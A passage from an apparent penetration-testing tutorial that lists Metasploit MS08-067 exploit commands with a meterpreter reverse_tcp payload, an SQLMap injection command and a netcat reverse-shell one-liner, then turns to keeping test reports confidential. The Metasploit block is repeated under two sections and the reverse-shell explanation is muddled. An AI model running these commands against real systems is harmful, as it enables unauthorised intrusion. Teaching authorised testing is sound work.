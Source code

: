    ```
   `use exploit/windows/smb/ms08_067_netapi`
   `set RHOST 192.168.1.1`
   `set PAYLOAD windows/meterpreter/reverse_tcp`
   `run`

2. SQLMap: SQLMap is a tool for exploiting SQL injection vulnerabilities in a web application. The following command can be used to exploit a SQL injection vulnerability:

   `sqlmap -u "http://example.com/index.php?id=1" --dbs`

Chapter 4: Post-Exploitation

Post-exploitation is the fourth phase of a penetration test. The goal of this phase is to maintain access to the target organization. The following tools can be used for post-exploitation:

1. Meterpreter: Meterpreter is a payload for the Metasploit framework that provides a command-line interface to the target system. The following command can be used to establish a Meterpreter session:

   `use exploit/windows/smb/ms08_067_netapi`
   `set RHOST 192.168.1.1`
   `set PAYLOAD windows/meterpreter/reverse_tcp`
   `run`

2. Netcat: Netcat is a command-line tool that can be used to establish a reverse shell to the target system. The following command can be used to establish a reverse shell:

   `nc -e /bin/bash 192.168.1.1 4444`

Conclusion:

Penetration testing is an important process for evaluating the security of an organization's network, infrastructure, and applications. The tools, techniques, and commands covered in this book can be used to identify vulnerabilities and weaknesses in the organization's security posture. It is important to provide recommendations for remediation and mitigation to help the organization address the vulnerabilities.When it comes to penetration testing, confidentiality is of utmost importance. Here are some tools, commands, and techniques that can help ensure that the report is kept confidential and is only shared with authorized personnel:

1. Encryption: One of the most common ways to ensure confidentiality is to encrypt the report. Encryption is the process of converting the report into a code that can only be read by someone who has the key to decrypt it. There are several encryption tools available, such as GnuPG, VeraCrypt, and OpenSSL.

2. Password-protected archives: Another way to ensure confidentiality is to password-protect the report using an archive tool such as 7-Zip or WinRAR. This will prevent unauthorized access to the report, even if it is accidentally shared or stolen.

3. Secure file transfer protocols: When sharing the report with authorized personnel, it is important to use a secure file transfer protocol such as SFTP or SCP. These protocols encrypt the data in transit, ensuring that it cannot be intercepted or read by unauthorized parties.

4. Access control: Access control is also important to ensure confidentiality. This involves restricting access to the report to only those who need to see it. This can be achieved through the use of passwords, user accounts, and permissions.

5. Physical security: Finally, physical security is also important to ensure confidentiality. The report should be stored in a secure location, such as a locked cabinet or safe, and only accessed by authorized personnel.

Some useful commands and techniques for ensuring confidentiality include:

   ```